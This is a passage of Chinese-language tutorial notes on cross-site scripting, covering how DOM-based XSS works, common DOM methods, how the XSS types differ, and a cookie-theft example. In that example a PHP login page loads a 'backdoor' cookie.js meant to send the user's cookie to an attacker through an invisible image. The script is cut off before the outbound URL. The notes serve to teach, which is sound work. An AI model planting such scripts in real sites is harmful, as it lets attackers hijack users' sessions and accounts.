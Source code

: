   ```

1. 攻击者构造特殊的URL，其中包含恶意代码，用户点击恶意链接
2. 用户浏览器接收到响应后解析执行，前端JS取出URL中的恶意代码并执行
3. 恶意代码窃取到用户数据并发送到攻击者的网站，来进行进一步的操作

##### d. 常用DOM方法

| 方法                     | 含义                                                    |
| ------------------------ | ------------------------------------------------------- |
| getElementById()         | 返回带有指定ID的元素                                    |
| getElementsByTagName()   | 返回包含带有指定标签名称的所有元素的节点列表(集合/数组) |
| getElementsByClassName() | 返回包含有指定类名的所有元素的节点列表                  |
| appendChild()            | 把新的子节点添加到指定节点                              |
| removeChild()            | 删除子节点                                              |
| replaceChild()           | 替换子节点                                              |
| insertBefore()           | 在指定的子节点前插入新的子节点                          |
| createAttribute()        | 创建属性节点                                            |
| createElement()          | 创建元素节点                                            |

#### (4)区别

##### a. 存储型与反射型

* 存储型XSS的恶意代码在数据库，而反射型XSS的恶意代码在URL里

##### b. DOM型与其他

* DOM型XSS攻击，取出和执行恶意代码**由浏览器完成**，属于前端**JavaScript自身的安全漏洞**，另外两种属于**服务端的**安全漏洞

### 4. 简单利用

#### (1)获取管理权限

* 通过获取**Cookie**，从而获取管理员权限

##### a. Cookie作用

* 记录用户敏感信息，当再次访问网站时，浏览器会自动监听这个文件，并将存储在本地的Cookie信息发送给网站进行进一步的判断。**持久型Cookie**以文本形式存储在硬盘上，由浏览器存取；**临时型Cookie**也称会话Cookie，存储在内存中，仅供当次浏览器运行使用。

##### b. 实例

```php
index.php页面，模拟真实用户的使用，但留有JS后门
<?php
if(isset($_POST['submit'])){
    setcookie("name","goodjob");
}
?>
<html>
<script type="text/javascript" src="cookie.js"></script>    
<meta charset="utf-8">
<form action="#" method="post" id="form1">
    <input type="text" name="username" />
    <input type="password" name="password" />
    <input type="submit" name="submit" value="submit" />
</form>
</html>

//cookie.js文件，执行恶意操作(获取到cookie并通过指定url传递出去)
var img= document.createElement('img');
img.width= 0;
img.height= 0;
   ```